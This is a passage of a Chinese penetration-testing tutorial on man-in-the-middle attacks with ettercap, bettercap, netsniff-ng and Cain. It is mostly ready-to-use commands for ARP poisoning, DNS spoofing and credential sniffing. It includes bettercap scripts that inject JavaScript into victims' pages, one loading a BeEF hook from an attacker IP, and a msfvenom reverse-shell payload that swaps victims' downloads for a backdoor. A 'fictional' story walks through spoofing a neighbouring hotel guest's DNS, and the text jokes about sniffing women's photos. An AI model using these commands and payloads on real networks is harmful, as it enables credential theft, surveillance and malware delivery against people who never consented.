依照这个规则，可以精确到特定的目标主机和端口上，MAC、IP、PORT 为三个条件，为空代表ANY，即所有。Ettercap 针对三个条件同时成立的目标进行嗅探。

> 示例："//80" 表示 "**任意MAC、任意IP上的80端口**" 进行嗅探。
>
> 一般 MAC 部分可以留空，因此可以只用 IP 部分来确定目标主机。
>
> 当 目标有 "**多个 IP**" 或者 "**多个端口**" 时 ：
>
> - 可用 "**逗号**" 来分隔不同的 C 段 IP
> - 可以用 "**-**" 表示连续的 IP
> - 可以用 "**分号**" 分隔不同表达形式的 IP
>
> 示例："10.0.0.1-5;10.0.1.33" 表示 IP地址 10.0.0.1，2，3，4，5 和 10.0.1.33。
>
> 示例："20-25, 80, 110"  表示 端口号 20，21，22，23，24，25，80 和110。

### 示例：常用操作写法

> arp 毒化 eth0 所在的网段，安静模式、文本显示
> **命令：\**ettercap -Tqi eth0 -M ARP // //\**** 
>
> 监听 10.0.0.1 的 ftp，ssh，telnet 信息，并保存到本地
> **命令：****ettercap -Tzq /10.0.0.1/21,22,23  -w hack.pcap** 
>
> 对 192.168.1.120 进行 dns 欺骗，使用默认网卡 eth0，文本模式、安静显示 
> **命令：\**ettercap -Tq -P dns_spoof -M arp /192.168.1.120/ //\****
>
> 使用过滤并监听 10.0.0.2 在 80 端口的所有通信，安静模式、文本显示，保存数据到本地  
> **命令：****ettercap -Tqi eth0 -L sniffed_data -F filter.ef -M arp:remote /10.0.0.2/80 //**
>
> 控制台模式下（-T）不使用混杂模式（-p），只显示自己的通信。**命令：****ettercap -Tp**
>
> 只嗅探本机110端口pop3的信息。**命令：****ettercap -Tzq //110**
>
> 在控制台模式下(-T)，不使用 ARP 初始化（-z），不显示数据包内容(-q安静模式)，显示捕捉到的用户名、密码以及其他消息。**命令：****ettercap -Tzq**
>
> 只嗅探本机与192.168.0.11主机在端口21、22、23上的通信。
>
> **命令：****ettercap -Tzq /192.168.0.11/21,22,23**
>
> 在控制台模式下（-T），加载主机列表（-j），对目标执行arp毒化中间人攻击（-M arp）
> **命令：****ettercap -T -j /tmp/victims -M arp /10.0.0.1-7/ /10.0.0.10-20/**
>
> 控制台下对整个局域网执行ARP毒化攻击（-M arp）。**命令：****ettercap -T -M arp // //**
>
> 在控制台模式下（-T），执行 ARP 双向欺骗（-M arp:remote），嗅探网关 192.168.1.1 与 部分主机 192.168.1.2-10 之间相互通信的数据包。
> **命令：****ettercap -T -M arp:remote /192.168.1.1/ /192.168.1.2-10/**
>
> 在控制台模式下（-T），不使用 ARP初始化（-z），使用安静模式（-q），监听所有主机110端口（pop3协议端口）。**命令：****ettercap -Tzq //110**
>
> 在控制台模式下（-T），不进行ARP初始化（-z），使用安静模式（-q），监听目标10.0.0.1的21，22，23端口（FTP、SSH、TELNET）
> **命令：****ettercap -Tzq /10.0.0.1/21,22,23**
>
> 打印输出可用插件列表。**命令：****ettercap -P list**
>
> 在 eth0 网卡上用自己的 filter 嗅探 ip 为 192.168.0.11 主机在 80 端口上的所有通信，并把所有的数据包保存成文件名为 "**sniffed_data**" 的文件。
> **命令：****ettercap -i eth0 -Tq -L sniffed_data -F filter.ef -M arp:remote /192.168.0.11/80 //**
>
> 单向欺骗路由，只劫持路由发向 10.1.1.2 的数据包。
> **命令：****ettercap -i eth0 -Tq -L sniffed_data -F filter.ef -M arp:remote /10.1.1.1/ /10.1.1.2/**


## ettercap filter 的写法

一个好工具配一个好的过滤规则才是perfect！

Ettercap的过滤规则只有经过编译之后才能由-F参数载入到ettercap中使用。
编译过滤规则的命令是：
etterfilter filter.ecf -o filter.ef。
即把filter.ecf文件编译成ettercap能识别的filter.ef文件。
过滤规则的语法与C类似，但只有if语句，不支持循环语句。需要注意的地方是，if与”(”之间必须要有一个空格，且大括号{}不能省略。

Ettercap提供的一些常用的函数有：
search(where, what) 从字符串where中查找what，若找到则返回true
regex(where, regex) 从字符串where中匹配正则表达式regex，若找到则返回true
replace(what, with) 把字符串what替换成字符串with
log(what, where) 把字符串what记录到where文件中
msg(message) 在屏幕上显示出字符串message
exit() 退出

快速学习 etterfilter 规则写法，多去读已有的一些规则的例子，然后按照例子仿写自己的filter。


## ettercap 局域网内 DNS 欺骗

：https://www.cnblogs.com/hkleak/p/5043063.html

ettercap 是什么？

> 在对 WEB 安全检测的时候都会用到 Cain 和 netfuke 这两款工具，功能相信用过的朋友多多少少都知道，但这两款工具是在 windows 下运行的。
> 而 ettercap 是在 linux 下运行的 。其实功能都是差不多的，称呼它为嗅探工具，ARP欺骗，DNS，劫持，中间人攻击等等。总之这是一款强大的安全测试工具。

DNS 简单说明

> 了解 DNS是什么：Domain Name System (域名系统 简称：DNS)
> 了解DNS欺骗是什么：攻击者(黑客)冒充域名服务器进行欺骗的一种行为
> 了解DNS原理原理：如果可以冒充域名服务器，然后把查询的IP地址设为攻击者的IP地址，
>
> 
>
> 这样的话，用户上网就只能看到攻击者的主页，而不是用户想要取得的网站的主页了，这就是DNS欺骗的基本原理。DNS欺骗其实并不是真的“黑掉”了对方的网站，而是冒名顶替、招摇撞骗罢了。

在 linux 下使用 arpspoof 和 dsniff 欺骗的操作如下

> 首先开启 linux 自带的路由转发功能
> 编辑 /proc/sys/net/ipv4/ip-forward 文件
> echo 1 > /proc/sys/net/ipv4/ip_forward
>
> 嗅探一个主机和网关之间的所有传输，并查看它发送到网络上的双向传输的所有数据。
> 可以使用如下两条命令：
> arpspoof -t 192.168.1.1 192.168.1.2 & >/dev/null 
> arpspoof -t 192.168.1.2 192.168.1.1 & >/dev/null
>
> 打开 dsniff
> 使用默认的捕获表
> dsniff -c -f /usr/share/dsniff/dsniff.services (当然这里你可以自己定制需要捕获端口的规则)
> 具体写法可以 cat /usr/share/dsniff/dsniff.services 查看编写的规则 
> Dsniff找到用户名和密码后，它会将它们显示在屏幕上。
> 如果想要停止ARP欺骗，输入如下命令：killall arpspoof

**DNS 欺骗举例**

(故事纯属虚构)：

那是一个夜黑风高的夜晚，又是刮风，有事闪电的，本想在撸几盘撸啊撸，搞的我心情一点都不好，于是关掉电脑准备睡觉了，然而突然啊的一声！瞬间把我从困意中拉了回来，在仔细一听~~~
在发现是隔壁宾馆在做爱爱，尼玛~~~搞这么大声做什么？让我怎么睡觉啊？尼玛的，决定展开一次入侵隔壁电脑。。。
准备工作：
隔壁电脑：192.168.1.12 (宾馆一般都装有还原精灵 所以电脑是裸奔(多数没装防火墙) )  //受害者机器
自带笔记本：192.168.1.11 (kali linux系统  接上宾馆自己那间房的网线)   //入侵者机器
网关IP:192.168.1.1
踩点：
怎么知道隔壁的电脑IP地址？
先看自己的房间号，比如是5-11(假如表示5楼11间房)，在来到自己房间看自己电脑的IP地址，一般是192.168.1.11
那么隔壁的自己出门去看门牌就知道了，(假如是5-12)，那么隔壁的IP地址就是192.168.1.12 最后在ping一下 通了 说明电脑开着，不同，说明电脑关着，或者防火墙什么的。。。
这个方法比较死？当然其它方法也有，根据自己经验而定。。。
首先先打开 ettercap 的 DNS 文件进行编辑，在kali下的文件路径为/etc/ettercap/etter.dns


在对应的位置添加对应的 标识和IP地址  * 代表所有域名 后边就是你要欺骗为的IP地址，这里是当然是我自己的主机IP地址啦，然后记得保存。


再来编辑 /var/www/html/index.html 文件  改成你定义页面 这里我简单的改了下，因为后边我们要启动 apache2 也就是网页服务器 这是主页文件，说白了目的是为了DNS欺骗成功后，当受害者（隔壁宾馆两口）访问域名访问网站后，打开的页面就是我们这里的这个主页文件里边的内容。。。。编辑好了---记得保存

启动 apache 服务：**systemctl start apache**

执行命令 **ettercap -G** 来进入 ettercap 的图形界面


可以看到列出了所有机器。选择网关进行添加，这里的网关是192.18.1.1。 点击 Add to target 1


选择受害者的 IP地址 (隔壁那位妹子的。。。) 点击 Add to target 2


开始 arp 毒化 配置：mitm ---> arp poisoning 


开始 dns 毒化配置：plugins ---> mangge the plugins


点击 strat ---> start sniffing，就开始 DNS 欺骗了。隔壁的妹子完事后，准备上电脑去逛逛QQ空间 不管打开任何网站页面一直是这样的。。。


## ettercap 进行 ARP 欺骗

进入 ettercap 的图形化界面
root@afei:~# ettercap -G  #进入ettercap图形化界面


**选择网卡**


**扫描局域网内的主机**


**查看扫描出的主机**


**选择目标主机，进行ARP欺骗**


**嗅探靶机图片**

driftnet 工具可以监控指定网卡的流量，直接显示出流量中的图片，例如微信朋友圈和给好友发送的图像，据说有同学用来嗅探MM的照片噢！方法并不是100%成功，稍微测试好玩，还是不错的。


## ettercap 实现 DNS劫持 和 arp欺骗

攻击机:192.168.40.128
钓鱼网站：192.168.40.128
目标机：192.168.40.129

修改配置文件：vim /etc/ettercap/etter.dns


配置钓鱼网站，打开 apache：**systemctl start apache2**

打开ettercap，发动攻击


网关添加到 target，目标机添加到 target2（ target 里的内容也可以对换）


开始 arp 欺骗


开始 DNS 劫持


然后目标机随便打开一个网站


显示 apache 的首页，则表示成功了，当然也可以自行修改 web 服务器里要显示的内容。不过要注意的是，如果地址里输入的是https，则无法显示网页。


## ICMP 欺骗

icmp 欺骗：icmp欺骗即基于重定向（redirect）的路由欺骗技术。其基本原理是欺骗其他的主机，将自身伪装为最近的路由，因此其他主机会将数据包发送进来，然后作为中间人的攻击者再重新将其转发到真正的路由器上。于是我们便可以对这些数据包进行监听。当然，icmp欺骗不适用于交换机的环境，若本机在交换机的环境下则最好选择arp毒化的方式来进行攻击。icmp欺骗方式的参数是真实路由器的MAC和IP，参数形式为(MAC/IP)。

示例：ettercap -M icmp:00:11:22:33:44:55/192.168.0.1

示例：ettercap -i eth0 -T -M icmp:00:11:22:33:44:55/10.0.0.1（真实网关的MAC/IP）


## DHCP 欺骗

DHCP spoofing：DHCP 欺骗的原理是将攻击者的本机伪装成DHCP服务器，代替真实的DHCP服务器给新接入网络的受害主机动态分配IP。这样的缺点是可能会与真实的DHCP服务器重复分配IP造成冲突，而且只能针对新接入网段的主机，难以影响到之前的主机。DHCP spoofing 方式的参数是可以分配出去的IP地址池、子网掩码和DNS，参数形式为(ip_pool/netmask/dns)。

> 示例：ettercap -i eth0 -T -M dhcp:192.168.0.30,35,50-60/255.255.255.0/192.168.0.1
> 说明：将分配 192.168.0.30，35，50-60 之中的地址，子网掩码为255.255.255.0，DNS服务器为192.168.0.1。


## Port Stealing ( Port 欺骗 )

此方式适用的环境为交换机下，且路由器中 IP 和 MAC 绑定从而使 ARP 欺骗无效。其基本思想是，既然无法欺骗路由器的IP和MAC对应关系，那么就欺骗交换机，使原本应该通过交换机端口到达目标主机的数据包被传入了攻击者的端口。需要指出的是，由于这个方法只用于交换机环境，且会产生大量的数据包，可能会严重影响网络状况。

示例：ettercap -i eth0 -T -M port /1.1.1.1/ /1.1.1.2/


## Ndp 欺骗

ettercap -i eth0 -T -M ndp //fe80::260d:afff:fe6e:f378/ //2001:db8::2:1/


# 5、bettercap 


官网：https://www.bettercap.org/
github 地址：https://github.com/bettercap/bettercap
文档：https://www.bettercap.org/modules/

提到中间人攻击，最知名的莫过于 Ettercap，但是由于 Ettercap 过滤器太复杂，扩展开发需要掌握C/C++语言，同时在大型网络环境中 Ettercap 的主机发现以及欺骗功能效果较差，于是就诞生了 Bettercap。**Bettercap 是一个非常强大、灵活可移植的中间人攻击框架，它具有跨平台、轻量级以及模块化等优点，在渗透测试过程中能够非常好的进行中间人测试。**

kali 安装 命令：**sudo apt install bettercap**

工具包含以下主要特性：

- 1、全双工和半双工的 ARP 欺骗。
- 2、真正的 ICMP 双向欺骗。
- 3、可配置的 DNS 欺骗。
- 4、实时和完全自动化地主机发现。
- 5、实时获取通信协议中的安全凭证，包括 HTTP（s）中的 Post 数据，Basic 和 Digest 认证， FTP, IRC, POP, IMAP, SMTP, NTLM (HTTP, SMB, LDAP, etc) 以及更多。
- 6、完全可定制的网络嗅探器。
- 7、模块化的 HTTP 和 HTTPS 透明代理，支持将用户以及内置的插件注入到目标的 HTML 代码，JS 或 CSS 文件，以及 URLs 中。
- 8、使用 HSTS bypass 技术拆封 SSL。
- 9、内置 HTTP 服务器。


## 使用 bettercap

 \# 开启 bettercap，默认是开启的 eth0 网卡

root@kali:~# bettercap  // 开启其他网卡，比如无线网卡 wlan0，可以 bettercap -iface wlan0


执行命令 bettercap 后就会列出局域网中存活的主机。( 如果没有，看下主机发现模块有没有打开，如果没有执行打开命令：net.recon on )

帮助，在启用 Bettercap 时可以通过 -h 获取帮助信息。


输入**help** 或者 **？**： 可以查看 bettercap 的各个模块（绿色表示启用，红色表示未启用）


 **help 模块名** ： 可以查看模块的具体参数和作用。比如：help net.recon


### 常用命令

> help  模块名称    显示指定模块的帮助
> active：       显示当前运行中的模块的信息
> quit ：       结束会话并退出
> sleep 秒数：     休眠指定的秒数（和shell中的sleep一样）
> get 变量：      获取变量的值
> set 变量值 ：    设置变量的值。有些模块有自定义变量，
>           比如可用net.sniff.output变量指定嗅探器的输出的保存路径
> read 变量提示：   显示提示来让用户输入，输入内容会被储存在变量中
> clear：       清屏
> include CAPLET：   在当前会话读取并运行这个caplet
> !命令 ：       运行相应的shell命令并显示输出
> alias MAC地址 别名  给MAC地址设置一个别名


### 常用模块

> api.rest     # RESTful API模块  
> ble.recon    # 低功耗蓝牙设备发现模块
> dhcp6.spoof   # dhcp6欺骗模块(伪造DHCP数据包篡改客户端的DNS服务器，因此需要与dns.spoof一并启用)
> events.stream    # 串流输出模块（就是不断地在终端界面刷出程序的输出，例如arp截获的信息）
> wifi    # wifi模块，有deauth攻击（wifi杀手）和创建软ap的功能
> net.recon  # 该模块负责定期读取系统 ARP 表以检测局域网内存活的主机
> net.probe  # 探测局域网内存活主机
> net.sniff  # 该模块是一个网络数据包嗅探器
> arp.spoof  # arp欺骗模块。使用ARP数据包不断欺骗网络上的选定主机，以执行中间人攻击
> dns.spoof  # DNS欺骗模块。使用欺骗响应回复 DNS 查询
> http.proxy # 可以使用 javascript 模块编写脚本的全功能 HTTP 透明代理。如果与一个一起使用欺骗者，所有 HTTP 流量都将重定向到它，它会根据需要自动处理端口重定向
> 等等还有其他的


## 实战应用 --- ARP 欺骗、DNS 欺骗、注入脚本


 ：https://blog.csdn.net/whoim_i/article/details/104388168


### ARP 欺骗

> **bettercap 中的 arp.spoof 不能起作用时，可以用 arpspoof 代替的**

中间人攻击中最常用的就是 ARP 欺骗了，接下来我们使用 bettercap 来进行 ARP 欺骗，熟悉一下arp.spoof 这个模块。

首先输入help arp.spoof 查看下这个模块的帮助信息


> arp.spoof  on :   开启ARP欺骗
> arp.ban  on ：    开启ARP欺骗，用ban模式，即目标将不能上网，也就是断网攻击
> arp.spoof off ：   停止ARP欺骗 
> arp.ban off :    停止ARP欺骗
> \# 参数
> arp.spoof.internal：  如果为true，那么网络中的计算机之间的本地连接将被欺骗，否则只能连接到来自外部网络(默认为false)
> arp.spoof.targets：  要欺骗的目标，可以是 ip 、mac 或者 别名 ，也可以支持nmap形式的ip区域
> arp.spoof.whitelist： 白名单，就是不欺骗的目标，可以是ip、mac或者别名

对于参数可以使用 set 来设置，使用 get 来获取

> \# 设置攻击目标，可以是一个网段如：192.168.100.1-20 多个地址使用逗号隔开。留空则默认为欺骗整个网段所有主机。否则仅对指定的目标进行欺骗。
>
> set arp.spoof.targets 192.168.100.2 
> get arp.spoof.targets        # 获取 arp.spoof.targets 的值

设置好参数后就可以开启 ARP 欺骗

> arp.spoof on

验证

> 通过 net.sniff 可以嗅探到目标机的浏览数据
> 通过 wireshark 抓包可以发现大量的来自目标机的流量
> 查看目标机的 arp 缓存表，发现网关的 mac 已经被修改为 kali（攻击机的mac）


### DNS 欺骗

DNS欺骗有一个前提，就是局域网内的主机的DNS服务器是局域网的网关，才能进行欺骗。如果是公网的DNS就不行了。
DNS欺骗之前我们需要利用ARP欺骗让目标机认为网关就是我们（攻击机），所以主机就会向我们发送DNS请求，这样就可以进行DNS欺骗了。

首先进行 ARP 欺骗

> set arp.spoof.targets 192.168.100.2
> arp.spoof on

然后进行 DNS 欺骗

> \# 设置要欺骗的域名，多个域名用逗号隔开，如果要欺骗所有域名用通配符 *
> set dns.spoof.domains www.sina.com
>
> 
>
> \# 设置将要欺骗的域名转换成的ip
> \# 可以设置成我们自己的服务器，里面写上一个假的网站做些不可描述的东西
> set dns.spoof.address 172.20.10.12 
>
> 
>
> \# 开启DNS欺骗
> dns.spoof on  

如图所示，ping www.sina.com 时目标机直接向我们发起请求。打新浪首页进入的是我们自己的网站。


为了避免代码的重复，还可以打开 bettercap 的目录创建一个host文件，文件中存放要欺骗的域名和地址，然后在进行DNS欺骗的时候只需要设置arp.spoof.hosts这个参数就行了。比如创建一个host 文件如下：


进行 DNS 欺骗的时候只需要设置 arp.spoof.hosts 这个参数就行了

> set dns.spoof.hosts /root/host  #设置欺骗的域名和对应ip
> dns.spoof on  #开启dns欺骗


### 注入脚本

通过进行ARP欺骗，可以拦截到流量，自然就可以对拦截到的流量进行操作，我们可以对 http 协议的数据包进行代理，然后向里面注入恶意脚本。

> set arp.spoof.targets 172.20.10.13   #设置arp欺骗的目标
> arp.spoof on              #开启ARP欺骗
> set http.proxy.script /root/1.js    #注入恶意脚本
> set https.proxy.script /root/1.js
> http.proxy on             # 开启HTTP代理
> https.proxy on 

脚本文件 1.js 如下

```javascript
function onload(){


    log("Bettercap loaded");


    log("targets: " + env['arp.spoof.targets']);    


}


function onResponse(req, res){


    if(res.ContentType.indexOf('text/html') == 0){


        var body = res.ReadBody();


        log("Inject js!!!");


        if(body.indexOf("</head>") != -1){


            res.body = body.replace(


                '</head>',


                '<script>a;ert(/1/)</script>'


            );


        }


    }


}
function onResponse(req,res){


    if(res.ContentType.indexOf('text/html')==0){


        var body=res.ReadBody();


        if(body.indexOf('</head>')!=-1){


            res.Body=body.replace(


                '</head>',


               '<script type="text/javascript">alert("your computer has hacked!")</script></head>'


            );


            }


        }


}
```


当目标机访问一个http或者https协议的站点时，就可以看到脚本已经注入到请求的网站。


### **结合 beef-xss 注入**

既然我们可以注入js脚本，那么我们就可以利用beef来对目标浏览器进行控制。

> set arp.spoof.targets 172.20.10.13   #设置arp欺骗的目标
> set http.proxy.script  /root/test.js     #往http流量中注入脚本/root/test.js
> set http.proxy.sslstrip true   #启用SSL剥离
>
> http.proxy on  #开启HTTP代理
> arp.spoof on  #开启ARP欺骗

test.js 内容如下：

```javascript
function onResponse(req,res){


    if(res.ContentType.indexOf('text/html')==0){


        var body=res.ReadBody();


        if(body.indexOf('</head>')!=-1){


            res.Body=body.replace(


                '</head>',


               '<script type="text/javascript" src="http://172.20.10.2:3000/hook.js"></script></head>'


            );


            }


        }


}
```

kali 之 beef 的使用：https://blog.csdn.net/whoim_i/article/details/102877616


### 导入 cap 格式 的 命令文件，避免重复输入命令

在 bettercap 中，有一种文件后缀叫 .cap 我们启动 bettercap 的时候可以指定该.cap文件，就可以按照这个文件还原命令。比如随便创建一个 xss.cap 文件，内容如下：


加载并执行 xss.cap 的命令：root@kali:~# **bettercap -caplet xss.cap**

使用 active 可以详细的查看框架的变量及开启的模块。

在新的版本中还加入了caplets，使用 caplets.update 下载更新后会存储由由开发者编写的各种功能的模块脚本。我们可以通过 caplets.show 来查看有哪些.cap模块。


其中的模块功能可满足中间人攻击的大部分场景。


演示：通过中间人攻击获取目标网站登录密码以及替换下载文件。

http-req-dump 模块能够欺骗内网流量走本地透明代理并输出内容，在Bettercap中启用该模块。模块默认启用ARP欺骗，欺骗对象为内网所有主机，使用目标登录百度。


目标点击登录后控制台会直接输出用户输入的内容。


使用 msf 生成一个 payload 替换掉 caplets 中的文件。命令：**root@kali:/usr/share/bettercap/caplets/download-autopwn/windows# msfvenom -p windows/meterpreter/reverse_tcp lhost=172.20.10.2 lport=8888 -f exe -o payload.exe** 



download-autopwn 文件可以保存着一些脚本，使用 mv 把生成的木马后门放进去，然后启用这个文件。当被欺骗者下载任意文件时都会被替换成我们的后门。

使用 Download－autopwn 模块。命令：root@kali:~# bettercap -caplet download-autopwn/download-autopwn ，或者 进入 bettercap 执行 download-autopwn


键入模块名会自动设置变量及脚本，在靶机上下载任意可执行文件，文件都会被替换为后门文件。


在进行下载文件替换时Payload与目标所下载文件大小不一致，此时可通过set downloadautopwn.resizepayload true设置自动调整Payload大小。


# 6、netsniff-ng --- 网络嗅探利器


netsniff-ng github  地址：https://github.com/netsniff-ng/netsniff-ng

帮助：

> (root㉿kali)-[~] netsniff-ng -h
> netsniff-ng 0.6.8, the packet sniffing beast
> http://www.netsniff-ng.org
>
> Usage: netsniff-ng [options] [filter-expression]
> Options:
>  -i|-d|--dev|--in <dev|pcap|->  输入源可以为 netdev, pcap 或者 pcap stdin
>  -o|--out <dev|pcap|dir|cfg|->  输出可以为 netdev, pcap, directory, trafgen, 或者 stdout
>  -C|--fanout-group <id>     Join packet fanout group
>  -K|--fanout-type <type>     Apply fanout discipline: hash|lb|cpu|rnd|roll|qm
>  -L|--fanout-opts <opts>     Additional fanout options: defrag|roll
>  -f|--filter <bpf-file|-|expr>  Use BPF filter from bpfc file/stdin or tcpdump-like expression
>  -t|--type <type>        Filter for: host|broadcast|multicast|others|outgoing
>  -F|--interval <size|time>    Dump interval if -o is a dir: <num>KiB/MiB/GiB/s/sec/min/hrs
>  -R|--rfraw           Capture or inject raw 802.11 frames
>  -n|--num <0|uint>        Number of packets until exit (def: 0)
>  -P|--prefix <name>       Prefix for pcaps stored in directory
>  -O|--overwrite <N>       Limit the number of pcaps to N (file names use numbers 0 to N-1)
>  -T|--magic <pcap-magic>     Pcap magic number/pcap format to store, see -D
>  -w|--cooked           Use Linux "cooked" header instead of link header
>  -D|--dump-pcap-types      Dump pcap types and magic numbers and quit
>  -B|--dump-bpf          Dump generated BPF assembly
>  -r|--rand            Randomize packet forwarding order (dev->dev)
>  -M|--no-promisc         No promiscuous mode for netdev
>  -A|--no-sock-mem        Don't tune core socket memory
>  -N|--no-hwtimestamp       Disable hardware time stamping
>  -m|--mmap            Mmap(2) pcap file I/O, e.g. for replaying pcaps
>  -G|--sg             Scatter/gather pcap file I/O
>  -c|--clrw            Use slower read(2)/write(2) I/O
>  -S|--ring-size <size>      Specify ring size to: <num>KiB/MiB/GiB
>  -k|--kernel-pull <uint>     Kernel pull from user interval in us (def: 10us)
>  -J|--jumbo-support       Support replay/fwd 64KB Super Jumbo Frames (def: 2048B)
>  -b|--bind-cpu <cpu>       Bind to specific CPU
>  -u|--user <userid>       Drop privileges and change to userid
>  -g|--group <groupid>      Drop privileges and change to groupid
>  -H|--prio-high         Make this high priority process
>  -Q|--notouch-irq        Do not touch IRQ CPU affinity of NIC
>  -s|--silent           Do not print captured packets
>  -q|--less            Print less-verbose packet information
>  -X|--hex            Print packet data in hex format
>  -l|--ascii           Print human-readable packet data
>  -U|--update           Update GeoIP databases
>  -V|--verbose          Be more verbose
>  -v|--version          Show version and exit
>  -h|--help            Guess what?!
>
> 示例 :
>  netsniff-ng --in eth0 --out dump.pcap -s -T 0xa1b2c3d4 --bind-cpu 0 tcp or udp
>  netsniff-ng --in wlan0 --rfraw --out dump.pcap --silent --bind-cpu 0
>  netsniff-ng --in dump.pcap --mmap --out eth0 -k1000 --silent --bind-cpu 0
>  netsniff-ng --in dump.pcap --out dump.cfg --silent --bind-cpu 0
>  netsniff-ng --in dump.pcap --out dump2.pcap --silent tcp
>  netsniff-ng --in eth0 --out eth1 --silent --bind-cpu 0 -J --type host
>  netsniff-ng --in eth1 --out /opt/probe/ -s -m --interval 100MiB -b 0
>  netsniff-ng --in vlan0 --out dump.pcap -c -u `id -u bob` -g `id -g bob`
>  netsniff-ng --in any --filter http.bpf --jumbo-support --ascii -V
>
> Note:
>  For introducing bit errors, delays with random variation and more
>  while replaying pcaps, make use of tc(8) with its disciplines (e.g. netem).             (root㉿kali)-[~]


# 7、Cain


> 官网地址：[https://cain-abel.en.softonic.com](https://cain-abel.en.softonic.com/)
>
> 官方关闭了下载通道，github 地址：https://github.com/xchwarze/Cain
>
> cain abel v4.9.46 简体中文版：http://www.downcc.com/soft/24269.html
>
> cain & abel(多口令破解工具) v4.9.89 英文：http://www.downcc.com/soft/13783.html

Cain & abel 是一个知名的 windows平台免费口令破解器，它不像 Ettercap 那么多选项，号称穷人使用的 L0phtcrack。它的功能十分强大，可以网络嗅探，网络欺骗，破解加密口令、解码被打乱的口令、显示口令框、显示缓存口令和分析路由协议，甚至还可以监听内网中他人使用VOIP拨打电话。它可以帮助您破解遗忘的各种密码。它能通过网络嗅探很容易的恢复多种口令，能使用字典破解加密的口令，暴力口令破解，录音VOIP（IP电话）谈话内容，解码编码化的口令，获取无线网络密钥，恢复缓存的口令，分析路由协议等。为了帮助大家对工具的使用进行了解，特别发布这篇教程，需要说明的是：请勿非法使用软件，否则后果自负！

Cain Abel 是一个可以 crack 屏保，PWL密码，共享密码，缓存口令，远程共享口令，SMB口令，支持VNC口令解码，Cisco Type-7口令解码，Base64口令解码，sql server 7.0/2000口令解码，Remote Desktop口令解码，access Database口令解码，Cisco PIX Firewall口令解码，Cisco MD5解码，NTLM Session Security口令解码，IKE Aggressive Mode Pre-Shared Keys口令解码，Dialup口令解码，远程桌面口令解码等综合工具，还可以远程crack，可以挂字典以及暴力crack，其sniffer功能极其强大，几乎可以明文捕获一切帐号口令，包括FTP，HTTP，IMAP，POP3，SMB，TELNET，VNC，TDS，SMTP，MSKERB5-PREAUTH，MSN，RADIUS-KEYS，RADIUS-USERS，ICQ，IKE Aggressive Mode Pre-Shared Keys authentications等。

CAIN 下有两个程序，一个是CAIN主程序，一个是Abel服务程序。Abel服务程序需要手动进行安装。Abel 是后台服务程序，一般不会用到，下面介绍 Cain 的使用。

程序由以下文件组成：

Cain.exe               主程序
Causermanual.chm       用户手册
Abel.exe               名为 abel 的 windows 服务
Abell.dll                程序支持文件
Wordlist.txt             小型口令文件
Install.log               程序安装目录
Oui.txtmac              地址厂商文件

**<安装目录>\winrtgen\winrtgen.exe         字典生成器
<安装目录>\winrtgen\charset.txt           字符集文件
<安装目录>\driver\winpcap_4_0_beta2.exe   原始winpcap驱动程序**

正确安装 CAIN 后，从 CAIN 目录下拷贝 Abel.exe 和 Abel.dll 到 C:\Windows\System32目录下，运行 Abel.exe 安装，并在服务里设置为自动启动，运行 CAIN，主界面如图所示。


## Cain 的嗅探器

嗅探器 (包含局域网的嗅探 和 ARP欺骗) 是 Cain 的重点，很多人用 Cain 主要就是用这个嗅探器和 ARP欺骗。Cain 中的嗅探器，主要嗅探局域网内的有用信息，比如各类密码等。Cain 中的 ARP 的欺骗，原理是操纵两台主机的 ARP 缓存表，以改变它们之间的正常通信方向，这种通信注入的结果就是 ARP 欺骗攻击，利用 ARP 欺骗可以获得明文的信息。

程序配置首先点击菜单的配置按钮

首先选择用于嗅探的以太网卡(可以是有线网卡也可以是无线网卡)，本文中将选择第二个无线网卡。下面的选项可以不选。然后转到ARP欺骗选项卡。欺骗选项中可以用真实的IP地址也可以使用伪装IP地址和的MAC。

但是使用伪装IP和MAC有几个前提条件：

- 1.攻击者的机器 **只能连接在 HUB 中，不能连接在交换机中** 
- \2. 设置的IP地址需是子网内的合法的而且是未使用的IP地址预欺骗ARP缓存勾选，下面默认每30秒发送一次ARP欺骗包。XP系统每2分钟更新ARP 缓存，因此设置太大就不能达到欺骗的效果，设置太小会产生太多的ARP流量，


## Cain 使用教程

> CAIN 使用教程：https://www.jianshu.com/p/facff81a4826
>
> Cain 使用教程详细版：https://www.jianshu.com/p/2902777609b3
>
> CAIN ( 扫描、嗅探、破解 ) 使用教程：https://wenku.baidu.com/view/57cb0722192e45361066f5e9.html


# 网络安全从业人员工具集


## 扫描 / 渗透测试

- OpenVAS：一个由多个服务和工具组成的框架，提供了全面而强大的漏洞扫描和漏洞管理解决方案功能。
- Metasploit Framework：优秀的网络安全工具之一，用于针对远程目标计算机开发和执行漏洞利用代码。其他重要的子项目包括opcode，数据库，shellcode存档和相关研究。
- Kali：Kali Linux是Debian衍生的Linux发行版，专为数字取证和渗透测试而设计。Kali Linux预先安装了许多渗透测试程序，包括nmap(端口扫描程序)，Wireshark(数据包分析器)，John the Ripper(密码破解程序)和Aircrack-ng(用于渗透测试无线局域网的软件套件)。
- pig： 一个Linux数据包制作工具。
- Scapy：一款强大的交互式数据包处理工具、数据包生成器、网络扫描器、网络发现工具和包嗅探工具。它提供多种类别的交互式生成数据包或数据包集合、对 数据包进行操作、发送数据包、包嗅探、应答和反馈匹配等等功能。
- Pompem：一个开源的网络安全工具，旨在自动搜索主要数据库中的漏洞。在Python中开发，有一个高级搜索系统，从而帮助渗透测试人员和白帽子的工作。在当前版本中，在数据库中执行搜索：Exploit-db，1337day，Packetstorm Security…
- Nmap：一个用于网络开发和安全审计的免费开源实用程序。

## 监控 / 记录

- justniffer：是一种网络协议分析工具，可以捕获网络流量并以自定义方式生成日志，可以模拟Apache Web服务器日志文件，跟踪响应时间并从HTTP流量中提取所有“被拦截”的文件。
- httpry：是一种专用的数据包嗅探工具，用于捕获HTTP数据包，并将HTTP协议层的数据内容以可读形式列举出来。它的目的不是执行分析，而是捕获、解析和记录流量，以便以后进行分析。它可以实时运行，显示解析后的流量，也可以作为记录到输出文件的守护进程运行。
- ngrep：是一个功能强大的网络数据包分析工具，它是一种应用于网络层的类似grep的工具，它匹配通过网络接口传递的流量。ngrep是一个pcap感知工具，可让您指定扩展的正则表达式或十六进制表达式，以便与数据包的数据有效载荷匹配。它目前可识别以太网，PPP，SLIP，FDDI，令牌环、IPv4 / 6，TCP，UDP，ICMPv4 / 6，IGMP和Raw，并以常见的数据包嗅探工具(如tcpdump和snoop)相同的方式理解BPF过滤器逻辑。
